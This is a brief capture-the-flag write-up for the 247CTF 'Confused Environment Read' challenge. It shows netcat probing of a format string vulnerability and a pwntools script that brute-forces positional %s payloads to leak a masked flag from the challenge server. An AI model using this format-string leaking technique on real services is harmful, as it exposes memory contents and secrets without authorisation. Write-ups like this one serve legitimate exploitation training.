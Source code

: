 Confused Environment Read

Format String Bug vulnerability

```
->$ nc 6967c3b94f3fac03.247ctf.com 50338
Argh, I can't see who you are!
What's your name again?
test
Oh, that's right! Welcome back test!
Argh, I can't see who you are!
What's your name again?
%1$p
Oh, that's right! Welcome back 0x5661d877!
Argh, I can't see who you are!
What's your name again?
%1$f
Oh, that's right! Welcome back -923193573382554223004110495288408097617880105363594090957638310987156657512082357050505920808568513513631165881994423673335396139585650754629198603969169231763939606682749919361909069377011366639851934358024633715465740528577752349229941718214037025099267135557601329152.000000!
```
%p -> pointer
%f -> float
%s -> strings
%l -> long
%x -> hex

this problems are easy so maybe simply,
I tryied the %s 

create the script:

```
#!/usr/bin/python3

from pwn import *

host,port = <host>,<port>


for i in range(200):

    r = remote(host,port)
    payload = f"%{str(i)}$s"

    r.recv()
    r.sendline(payload.encode())
    res = r.recv()
    r.close()

    if b"247CTF" in res:
        print(res)
        break
```

```
->$ ./exploit.py 
```

```
[+] Opening connection to 6967c3b94f3fac03.247ctf.com on port 50338: Done
[*] Closed connection to 6967c3b94f3fac03.247ctf.com port 50338
b"Oh, that's right! Welcome back FLAG=247CTF{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}!\nArgh, I can't see who you are!\nWhat's your name again?\n"
```










